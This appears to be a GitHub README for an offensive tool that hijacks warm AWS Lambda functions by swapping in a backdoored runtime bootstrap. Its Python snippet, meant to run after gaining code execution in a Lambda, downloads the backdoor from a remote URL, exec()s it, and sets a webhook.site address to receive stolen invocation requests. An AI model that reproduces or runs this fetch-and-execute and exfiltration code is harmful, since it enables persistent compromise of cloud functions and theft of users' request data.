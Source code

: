 # lambda_bootstrap_switcher

This projects is useful to steal request from lambda and is based on:

- https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/
- https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py
- https://github.com/Djkusik/serverless_persistency_poc/blob/master/aws/exploit_files/evil_bootstrap.py
- https://github.com/aws/aws-lambda-python-runtime-interface-client/tree/main/awslambdaric

For more info check: https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence

To perform this attack you need to find a RCE vulnerability inside a Lambda function, one you have taht you can load the malicious bootstrap from this repo executing:

```python
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```

Note how it's possible to indicate in the env variable `URL_EXFIL` the URL where you want to receive the exfiltrated requests.
